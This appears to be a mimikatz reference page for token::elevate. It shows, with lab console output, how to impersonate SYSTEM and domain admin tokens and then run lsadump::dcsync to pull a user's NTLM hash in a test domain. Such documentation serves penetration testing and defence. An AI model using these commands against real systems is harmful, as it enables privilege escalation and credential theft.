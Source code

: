 # elevate

`token::elevate` can be used to impersonate a token. By default it will impersonate a token from `SYSTEM` and therefore elevate permissions to `NT AUTHORITY\SYSTEM`.

It has the following command line arguments:

* `/id`: Impersonate the specified token
* `/process`: Impersonate the token of the running process
* `/user`: Impersonate the token of the specified user
* `/admin`: Impersonate a token of builtin local administrators
* `/domainadmin`: Impersonate a token with Domain Admin privileges
* `/enterpriseadmin`: Impersonate a token with Enterprise Admin privileges
* `/localservice`: `NT AUTHORITY\LOCAL SERVICE` token impersonation
* `/networkservice`: `NT AUTHORITY\NETWORK SERVICE` token impersonation

Impersonated tokens will be impersonation tokens (thread tokens) and only work in threads. To impersonate a token in a new process, use `token::run`.

## Impersonate Token in a New Thread

List current token:

```
mimikatz # token::whoami
 * Process Token : {0;000831c5} 3 F 2396391     SERVER01\tmassie    S-1-5-21-755659916-1915924768-2761631771-1001   (15g,24p)       Primary
 * Thread Token  : no token
```

The output shows:

- The primary (process) token belongs to the current user.
- There is no impersonation (thread) token.

List tokens of user to impersonate:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

Use a primary token of the target user (one that is linked to a logonsession):

```
mimikatz # token::elevate /id:457263
Token Id  : 457263
User name :
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
 -> Impersonated !
 * Process Token : {0;000831c5} 3 F 2396391     SERVER01\tmassie    S-1-5-21-755659916-1915924768-2761631771-1001   (15g,24p)       Primary
 * Thread Token  : {0;000563b2} 2 F 3874634     winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Impersonation (Delegation)
```

The output shows:

- The primary (process) token is still the same of the initial user. The `token::elevate` command will not change the primary token.
- There is now a new impersonation (thread) token for the impersonated user. The impersonation level is `delegation`. It's therefore possible to use the token in a new thread and access local and remote resources.
- It's not possible to start a new command (`misc::cmd`) as the impersonated user, because the impersonated token is an impersonation token and no process token. To impersonate a token in a new process, use `token::run`.
- All mimikatz commands are now using the impersonation token for new threads.

After impersonating the user (who is domain admin), it's e.g. possible to use `lsadump::dcsync`:

```
mimikatz # lsadump::dcsync /user:cclear
[DC] 'winattacklab.local' will be the domain
[DC] 'DC1.winattacklab.local' will be the DC server
[DC] 'cclear' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Celaine Clear

** SAM ACCOUNT **

SAM Username         : cclear
User Principal Name  : cclear@winattacklab.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 5/31/2023 6:51:25 AM
Object Security ID   : S-1-5-21-1345929560-157546789-2569868433-1117
Object Relative ID   : 1117

Credentials:
  Hash NTLM: 760ca1371ac4c506d31b5ec1a09f806d
[...]
```

## Other Examples

By default, `token::elevate` elevates to `SYSTEM`:

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 62374281    hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 62721950    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

- All mimikatz commands (new threads) are therefore executed as `SYSTEM`.

Elevate to any logged in domain admin:

```
mimikatz # token::elevate /domainadmin
Token Id  : 0
User name :
SID name  : hacklab\Domain Admins

4512    {0;0007212c} 2 D 476947         hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500   (29g,26p)       Primary
 -> Impersonated !
 * Process Token : {0;080fd6c8} 3 F 137701065   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730
(15g,26p)       Primary
 * Thread Token  : {0;0007212c} 2 D 137785083   hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500
(29g,26p)       Impersonation (Delegation)
```
